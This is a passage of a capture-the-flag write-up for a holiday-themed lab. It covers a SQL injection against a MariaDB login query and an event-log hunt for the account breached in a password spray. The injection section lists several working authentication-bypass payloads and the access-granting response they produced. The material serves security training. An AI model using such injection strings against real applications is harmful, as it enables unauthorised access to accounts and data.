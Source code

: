 We can learn a few things:

* The server is running MariaDB.
* Original SQL query is
  * `SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '{}' LIMIT 1"`
* Payload is injected in the value of `uid`.
* If the format of the query is correct, we get these responses
  * `{"data":"Authorized User Account Has Been Disabled!","request":false}`
  * `{"data":"No Authorized User Account Found!","request":false}` I got this for `hello' or '1'='1 -- ;`.
* Remember to pass a whitespace and a char after the comment for MariaDB to count it as a comment. The parser might not count it as a comment until it sees another character after it.

### Payload
Try different payloads:

* 3.png: `hello' OR '1'='1 -- ;`
* 4.png: `hello' OR 1=1 -- ;`
* 5.png: `hello' AND enabled = 1 OR 1=1 -- ;`
* 6.png: `hello' AND enabled = true OR 1=1 -- ; ` (1 and 0 are aliases for true and false in MariaDB)

The correct payload is `' OR enabled = 1 -- ;` because we want an account that is both enabled and authorized.

* `SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '' OR enabled = 1 -- ; ' LIMIT 1`

Response is

``` json
{"data":"User Access Granted - Control number 19880715","request":true,"success":
{"hash":"ff60055a84873cd7d75ce86cfaebd971ab90c86ff72d976ede0f5f04795e99eb","resourceId":"false"}}
```

**The answer is `19880715`.** And we are in Santa's secret room.

## Yule Log Analysis
**The answer is `minty.candycane`.**

Someone did a password spray and then logged into one account. Find that account based on logs.

There's an `evtx` file and a python script to dump it as XML.

* `python evtx_dump.py ho-ho-no.evtx > dumped`

And then I ran `cat dumped` and copied everything to a local text file on my machine.

To isolate password sprays, search for `4625` (event ID for unsuccessful logon). See the nice section in the minimap? That is out password spray.

{{< imgcap title="Searching for 4625 in VS Code" src="02-pw-spray.png" >}}

Copy/paste that part to a new file and look for successful logons (`4624`). There multiple logons in the password spray logs. Which one is the attacker?

The attacker did the password spray from one IP (or multiple IPs), so logon must be from one of those IPs. All password spray attempts came from `172.31.254.101`. So we search for a successful logon (`4624`) from that IP and we find `minty.candycane`.
